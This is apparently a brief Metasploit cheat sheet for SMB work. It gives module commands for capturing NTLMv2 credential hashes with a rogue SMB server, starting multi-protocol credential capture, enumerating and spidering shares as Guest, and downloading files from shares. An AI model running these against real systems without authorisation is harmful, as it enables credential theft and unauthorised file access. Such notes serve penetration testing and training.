 # Start capturing NTLMv2 over SMB
```ruby
use auxiliary/server/capture/smb
set VERBOSE true
run
```

# Start capturing all supported protocols
```ruby
load capture
captureg start --ip <ip>
```

# Enumerate SMB shares
## Options
```ruby
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS <ip>
set SMBUser Guest
set ShowFiles true
set SpiderShares true
```

## Run
```ruby
```

# Download a file over SMB
## Options
```ruby
use auxiliary/admin/smb/download_file
```

## Run
```ruby
use auxiliary/admin/smb/download_file
run smb://Guest:@<ip>/<share>/<path>/<file>
# run smb://<user>:<password>@<ip>/<share>/<path>/<file>
```
